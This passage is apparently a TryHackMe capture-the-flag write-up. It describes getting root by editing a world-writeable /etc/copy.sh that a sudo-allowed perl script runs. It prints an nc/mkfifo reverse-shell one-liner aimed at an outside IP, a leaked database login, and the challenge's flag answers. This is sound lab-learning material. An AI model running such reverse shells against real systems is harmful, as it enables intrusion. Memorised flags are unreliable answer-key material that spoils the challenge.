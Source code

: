 I initially did not realise that `/etc/copy.sh` was world writeable so I spent a lot of time examining the mysql database with the credentials "rice:randompass" looking for a privesc. I could not see a way from here.

Upon checking `copy.sh` again I realised it was writeable, so I commented out the other backdoor and added my own.

```sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.32.89 5554 >/tmp/f
```
Running `sudo /usr/bin/perl /home/itguy/backup.pl` after modifying `copy.sh` returned a root shell to my machine. From here I was able to grab root.txt


## Answers

**Questions**

    1. What is the user flag?

THM{63e5bce9271952aad1113b6f1ac28a07}

    2. What is the root flag?

THM{6637f41d0177b6f37cb20d775124699f}
